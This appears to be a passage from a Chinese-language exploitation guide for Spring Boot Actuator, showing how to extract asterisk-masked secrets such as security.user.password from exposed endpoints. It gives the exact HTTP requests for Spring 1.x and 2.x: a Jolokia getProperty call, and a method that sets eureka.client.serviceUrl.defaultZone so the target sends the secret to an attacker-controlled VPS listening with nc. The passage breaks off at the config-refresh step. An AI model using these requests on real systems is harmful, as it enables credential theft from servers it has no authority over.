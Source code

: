 spring 2.x

    POST /actuator/jolokia
    Content-Type: application/json

    {"mbean": "org.springframework.cloud.context.environment:name=environmentManager,type=EnvironmentManager","operation": "getProperty", "type": "EXEC", "arguments": ["security.user.password"]}

获取被星号脱敏的密码的明文 (方法二)
-----------------------------------

> 访问 /env 接口时，spring actuator 会将一些带有敏感关键词(如
> password、secret)的属性名对应的属性值用 \* 号替换达到脱敏的效果

#### 利用条件：

-   可以 GET 请求目标网站的 `/env`
-   可以 POST 请求目标网站的 `/env`
-   可以 POST 请求目标网站的 `/refresh` 接口刷新配置（存在
    `spring-boot-starter-actuator` 依赖）
-   目标使用了 `spring-cloud-starter-netflix-eureka-client` 依赖
-   目标可以请求攻击者的服务器（请求可出外网）

#### 利用方法：

##### 步骤一： 找到想要获取的属性名

GET 请求目标网站的 `/env` 或 `/actuator/env` 接口，搜索 `******`
关键词，找到想要获取的被星号 \* 遮掩的属性值对应的属性名。

##### 步骤二： 使用 nc 监听 HTTP 请求

在自己控制的外网服务器上监听 80 端口：

    nc -lvk 80

##### 步骤三： 设置 eureka.client.serviceUrl.defaultZone 属性

将下面 `http://value:${security.user.password}@your-vps-ip` 中的
`security.user.password` 换成自己想要获取的对应的星号 \* 遮掩的属性名；

`your-vps-ip` 换成自己外网服务器的真实 ip 地址。

spring 1.x

    POST /env
    Content-Type: application/x-www-form-urlencoded

    eureka.client.serviceUrl.defaultZone=http://value:${security.user.password}@your-vps-ip

spring 2.x

    POST /actuator/env
    Content-Type: application/json

    {"name":"eureka.client.serviceUrl.defaultZone","value":"http://value:${security.user.password}@your-vps-ip"}

##### 步骤四： 刷新配置
